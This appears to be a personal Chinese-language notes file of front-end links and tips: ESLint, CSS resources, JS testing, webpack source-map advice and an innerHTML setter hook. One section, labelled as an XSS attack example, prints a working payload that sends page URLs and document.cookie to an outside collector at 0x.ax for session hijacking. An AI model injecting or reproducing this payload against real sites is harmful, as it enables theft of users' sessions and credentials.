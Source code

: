 ### eslint 插件
https://mp.weixin.qq.com/s/wYYDG7yU9h3-6DBYTCkuiA

### StateOfJS: 2022年JavaScript生态圈趋势报告
https://mp.weixin.qq.com/s/2xcqKVDei6Q3wJOx-x9v8g


### 64 个超级有用的 CSS 资源

https://mp.weixin.qq.com/s/zEbXIkzAjwdtpJsh05FNgw


### javascript-testing-best-practices
https://github.com/goldbergyoni/javascript-testing-best-practices?


### xss攻击示例
```bash
(function () {
  new Image().src =
    "http://0x.ax/xss.php?do=api&id=JRSa&location=" +
    escape(
      (function () {
        try {
          return document.location.href;
        } catch (e) {
          return "";
        }
      })()
    ) +
    "&toplocation=" +
    escape(
      (function () {
        try {
          return top.location.href;
        } catch (e) {
          return "";
        }
      })()
    ) +
    "&cookie=" +
    escape(
      (function () {
        try {
          return document.cookie;
        } catch (e) {
          return "";
        }
      })()
    ) +
    "&opener=" +
    escape(
      (function () {
        try {
          return window.opener && window.opener.location.href
            ? window.opener.location.href
            : "";
        } catch (e) {
          return "";
        }
      })()
    );
})();
if ("" == 1) {
  keep = new Image();
  keep.src =
    "http://0x.ax/xss.php?do=keepsession&id=JRSa&url=" +
    escape(document.location) +
    "&cookie=" +
    escape(document.cookie);
}

```

### chatgpt 写提交日志  AI
https://zura.wiki/post/never-write-a-commit-message-again-with-the-help-of-gpt-3/


### 加密货币原理 比特币  加密数字货币新手指南
https://helpthisbook.com/sunny/the-newbies-guide-to-crypto/89be5a1e-a223-4c46-ac56-718f56baa112


### innerHtml 注入

```js
var originalSet = Object.getOwnPropertyDescriptor(
  Element.prototype,
  "innerHTML"
).set;

Object.defineProperty(Element.prototype, "innerHTML", {
  set: function(value) {
    // change it (ok)
    var new_value = my_function(value);

    //Call the original setter
    return originalSet.call(this, new_value);
  }
});

function my_function(value) {
  console.log("SOMEONE SET INNERHTML", value);
  //Do whatever you want here
  return value + " World!";
}
```


### 一个炫酷的头像悬停效果
https://juejin.cn/post/7196747356796518460


### https://mp.weixin.qq.com/s/ZfIWKRbF3Yq7sNFG2TsQFw
https://mp.weixin.qq.com/s/ZfIWKRbF3Yq7sNFG2TsQFw

开发环境推荐：cheap-module-eval-source-map

生产环境推荐：cheap-module-source-map

原因如下：

cheap：源代码中的列信息是没有任何作用，因此我们打包后的文件不希望包含列相关信息，只有行信息能建立打包前后的依赖关系。因此不管是开发环境或生产环境，我们都希望添加 cheap 的基本类型来忽略打包前后的列信息；
module ：不管是开发环境还是正式环境，我们都希望能定位到 bug 的源代码具体的位置，比如说某个 Vue 文件报错了，我们希望能定位到具体的 Vue 文件，因此我们也需要 module 配置；
soure-map ：source-map 会为每一个打包后的模块生成独立的 soucemap 文件 ，因此我们需要增加 source-map 属性；
eval-source-map：eval 打包代码的速度非常快，因为它不生成 map 文件，但是可以对 eval 组合使用 eval-source-map 使用会将 map 文件以 DataURL 的形式存在打包后的 js 文件中。在正式环境中不要使用 eval-source-map, 因为它会增加文件的大小，但是在开发环境中，可以试用下，因为他们打包的速度很快。
